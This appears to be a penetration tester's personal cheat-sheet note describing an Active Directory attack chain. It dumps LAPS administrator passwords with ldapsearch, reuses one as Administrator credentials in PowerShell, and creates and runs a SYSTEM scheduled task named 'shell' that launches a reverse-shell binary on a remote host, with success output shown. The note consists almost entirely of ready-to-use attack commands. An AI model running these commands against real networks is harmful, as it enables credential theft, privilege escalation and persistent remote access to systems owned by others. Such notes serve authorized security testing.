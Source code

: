 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

![[Pasted image 20220328113745.png]]

```bash - kali
ldapsearch -v -x -D $USER@$HOSTNAME.$DOMAIN -w $PASSWORD -b "DC=$HOSTNAME,DC=$DOMAIN" -h $TARGET "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```

```powershell - windows
powershell
```

Use found password from above here.

```powershell - windows
$pw = ConvertTo-SecureString "$PASSWORD" -AsPlainText -Force
```

```powershell - windows
$creds = New-Object System.Management.Automation.PSCredential ("Administrator", $pw)
```

Make sure the path to reverse.exe is correct below.

```powershell - windows
Invoke-Command -Computer $HOSTNAME -ScriptBlock { schtasks /create /sc onstart /tn shell /tr C:\Windows\Temp\Tools\reverse64.exe /ru SYSTEM } -Credential $creds
```

![[rlwrap]]

SUCCESS: The scheduled task "shell" has successfully been created.

```powershell - windows
Invoke-Command -Computer $HOSTNAME -ScriptBlock { schtasks /run /tn shell } -Credential $creds
```

SUCCESS: Attempted to run the scheduled task "shell".


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
